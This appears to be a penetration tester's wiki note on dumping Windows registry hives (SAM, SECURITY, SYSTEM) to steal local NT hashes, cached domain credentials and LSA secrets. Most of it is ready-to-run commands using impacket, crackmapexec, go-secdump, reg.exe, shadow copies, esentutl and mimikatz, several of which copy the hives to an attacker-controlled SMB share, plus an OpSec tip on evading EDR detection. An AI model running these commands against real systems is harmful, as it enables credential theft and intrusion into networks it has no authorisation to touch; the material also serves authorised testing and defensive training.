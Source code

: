 ```yaml
---
title: Registry Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the Windows [[notes/windows/registry]] as [[notes/windows/credential-access-admin|local admin]].
The *Security Account Manager* stores NT hashes of local users in the `SAM` registry hive.
The *Local Security Authority* stores Domain Cached Credentials (DDC) of the last ten user logons as well as plain text passwords or NT hashes of local and domain service accounts in the `SECURITY` hive.

DCC hashes are hard to crack, but you can try with a small wordlist.
See [[notes/cryptography/hash-cracking]] for details.

# Dump from Linux

Connect to the *Remote Registry* service over SMB and save the hives to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SAM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SYSTEM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SECURITY' -o '\\attacker.corp.local\share'
    ~~~

Connect to the *Remote Registry* service, read the boot key from the `SYSTEM` hive, save the `SAM` and `SECURITY` hives to disk and download them via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' --sam --lsa
    ~~~

Dump the registry hives without touching disk.

=== "[[notes/tools/go-secdump]]"
    ~~~ bash
    go-secdump -host srv01.corp.local -local -user administrator -pass 'passw0rd'
    ~~~

> **OpSec:**
>
> Some EDRs detect Impacket and CME because they access the `ADMIN$` share and write the dumps to `C:\Windows\Temp\*.tmp` ([source](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)).
>
> A few EDRs detect remote access to `SAM` even without this indicators.
> In this case you can try to run any of the Windows builtins remotely instead of relying on the *Remote Registry*.
> See [[notes/lateral-movement/index]] for possible techniques.

# Extract on Linux

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump -sam ./sam.save -security ./security.save -system ./system.save LOCAL
    ~~~

=== "[[notes/tools/pypykatz]]"
    ~~~ bash
    pypykatz registry --sam ./sam.save --security ./security.save --system ./system.save
    ~~~

# Dump on Windows

Save registry hives directly to a SMB share.

=== "reg.exe"
    ~~~ bat
    reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    reg.exe save hklm\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    reg.exe save hklm\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Copy registry hives from a [[notes/windows/shadow-copy]] to a SMB share.

=== "cmd.exe"
    ~~~ bat
    vssadmin.exe list shadows
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

=== "esentutl.exe"
    ~~~ bat
    esentutl.exe /y /vss C:\Windows\System32\config\sam /d \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    esentutl.exe /y /vss C:\Windows\System32\config\security /d \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    esentutl.exe /y /vss C:\Windows\System32\config\system /d \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Parse hives in memory without touching disk.

=== "[[notes/tools/mimikatz]]"
    ~~~
    mimikatz.exe token::elevate lsadump::sam lsadump::secrets exit
    ~~~

Untested tools:

- [RegSave](https://github.com/EncodeGroup/RegSave)
